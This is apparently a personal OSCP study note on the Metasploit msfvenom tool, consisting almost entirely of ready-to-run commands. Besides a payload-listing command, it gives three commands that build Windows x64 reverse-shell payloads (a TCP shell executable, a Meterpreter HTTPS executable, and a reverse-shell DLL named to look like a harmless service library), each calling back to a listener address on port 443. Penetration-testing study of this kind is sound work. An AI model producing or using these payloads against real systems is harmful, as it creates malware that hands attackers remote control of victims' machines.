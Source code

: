 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/11-metasploit-framework/3-msf-venom/","updated":"2024-01-05T11:36:31.522+01:00"}
---
```


---------
Search for payload:
```
msfvenom -l payloads --platform windows --arch x64
```

Non-staged 64-bit Windows Reverse TCP Payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```

Non-staged 64-bit Windows Reverse HTTPS Payload:
```
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.199 LPORT=443 -f exe -o met.exe
```

64-bit DLL Payload:
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 LPORT=443 -a x64 --platform Windows -f dll -o EnterpriseServiceOptional.dll
```

